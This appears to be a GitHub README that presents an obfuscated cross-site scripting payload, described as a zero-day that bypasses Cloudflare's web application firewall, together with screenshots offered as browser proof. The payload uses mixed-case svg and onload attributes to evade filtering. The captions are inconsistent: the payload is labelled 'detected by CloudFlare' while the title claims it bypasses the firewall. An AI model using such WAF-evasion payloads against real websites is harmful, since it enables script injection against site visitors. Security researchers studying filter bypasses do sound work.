 # Payloads-XSS-Bypass-WAF-CloudFlare

This repository will leave a zero-day XSS evaluated by me, to bypass the WAF Cloudflare.

Simple payload detected by CloudFlare:

![image](https://user-images.githubusercontent.com/66162160/184783085-5935835f-9da7-4192-914e-9215c0260b0a.png)


Simple payload detected by CloudFlare:


```sh
"><sVg/OnLuFy="X=y"oNloaD=;1^confirm(1)>/``^1//
```

# Verificate response header:

![image](https://user-images.githubusercontent.com/66162160/184783183-0c1e21b5-68a8-4211-99d9-c1c66c498367.png)


#PoC Browser:

![image](https://user-images.githubusercontent.com/66162160/184782966-33c94d6e-17b0-43a3-ba7f-09b3bb6b1b27.png)
